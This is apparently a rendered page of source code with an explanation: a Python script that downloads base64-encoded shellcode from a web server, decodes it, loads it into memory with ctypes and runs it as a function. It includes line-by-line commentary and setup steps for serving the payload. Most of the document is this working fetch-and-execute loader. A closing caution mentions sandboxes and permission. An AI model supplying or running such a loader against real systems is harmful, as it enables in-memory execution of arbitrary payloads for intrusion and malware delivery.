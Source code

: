 This Python script is designed to download, decode, and execute shellcode from a web server. Shellcode is a set of machine code instructions used in various types of security exploits. This script assumes that a shellcode binary file is hosted on a local web server.


```python
import base64
import ctypes
import urllib.request

# retrieve the shellcode from our webserver
url = "http://localhost:8000/shellcode.bin"
response = urllib.request.urlopen(url)

# decode the shellcode from base64
shellcode = base64.b64decode(response.read())

# create a buffer in memory
shellcode_buffer = ctypes.create_string_buffer(shellcode, len(shellcode))

# create a pointer
shellcode_func = ctypes.cast(shellcode_buffer,
                            ctypes.CFUNCTYPE(ctypes.c_void_p))

# call our shellcode
shellcode_func()
```


1. **Importing Required Modules:**
   - `base64`: This module is used for encoding and decoding binary data into ASCII characters (base64) and vice versa.
   - `ctypes`: This module provides C-style data types and allows calling functions in shared libraries or DLLs, and interacting with system memory.
   - `urllib.request`: This module provides simple methods for opening and reading URLs.

2. **Retrieving Shellcode:**
   ```python
   url = "http://localhost:8000/shellcode.bin"
   response = urllib.request.urlopen(url)
   ```
   - The `urlopen` function opens the URL where the shellcode binary is hosted.
   - `http://localhost:8000/shellcode.bin` is assumed to be the location where the shellcode is available (this is a local web server).

3. **Decoding the Shellcode:**
   ```python
   shellcode = base64.b64decode(response.read())
   ```
   - The shellcode is downloaded as base64-encoded data. The `base64.b64decode` function decodes it back to its original binary form.

4. **Creating a Memory Buffer:**
   ```python
   shellcode_buffer = ctypes.create_string_buffer(shellcode, len(shellcode))
   ```
   - `ctypes.create_string_buffer` creates a mutable buffer in memory that can hold the shellcode. It is allocated with the length of the shellcode.

5. **Creating a Pointer to the Shellcode:**
   ```python
   shellcode_func = ctypes.cast(shellcode_buffer,
                                ctypes.CFUNCTYPE(ctypes.c_void_p))
   ```
   - `ctypes.cast` is used to cast the memory buffer to a pointer that can be treated as a function pointer (of type `CFUNCTYPE(ctypes.c_void_p)`), allowing the shellcode to be executed as a function.

6. **Executing the Shellcode:**
   ```python
   shellcode_func()
   ```
   - Finally, the function pointer `shellcode_func` is called, which triggers the execution of the shellcode in memory.

### How to Run the Code

To run this code, follow these steps:

1. **Set Up the Web Server:**
   - You need to have a web server running locally (on `localhost:8000`) that serves a `shellcode.bin` file. You can use Python's built-in HTTP server to serve the file. Here’s how:
     ```bash
     python -m http.server 8000
     ```
     Make sure the shellcode file (`shellcode.bin`) is in the directory from which the server is running.

2. **Prepare the Shellcode:**
   - The shellcode (`shellcode.bin`) needs to be a valid binary shellcode that you want to execute. Ensure that the shellcode is crafted correctly and placed in the same directory as the web server is serving.

3. **Run the Python Script:**
   - Simply execute the Python script from the command line:
     ```bash
     python your_script.py
     ```

   Ensure that the URL is correct, and the shellcode file is available to download.

### Caution

- **Security Risk:** This script executes shellcode directly from memory, which can be highly dangerous and malicious. Only run such scripts in a controlled, isolated environment (e.g., virtual machines or sandboxed environments).
- **Ethical Consideration:** Ensure that you have permission to execute such code and that it's for educational, testing, or ethical hacking purposes only.
